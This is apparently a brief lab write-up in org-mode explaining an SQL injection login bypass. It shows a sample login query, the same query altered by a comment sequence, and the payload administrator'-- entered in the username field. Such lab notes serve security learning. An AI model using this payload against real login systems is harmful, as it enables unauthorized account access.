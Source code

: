 #+title: SQL injection vulnerability allowing login bypass

* About

** Sql injection
+ in the login function

** End Goal
+ login as ~administrator~

* Steps

** Query for login system
~dummy query~
#+begin_SRC sql options
SELECT username, password FROM users WHERE username = 'administrator' AND password = 'somepassword'
#+end_SRC sql

Now we can bypass the password if our sql becomes
#+begin_SRC sql options
SELECT username, password FROM users WHERE username = 'administrator'--' AND password = 'somepassword'
#+end_SRC sql


* Solution
~Enter administrator'-- in username field~
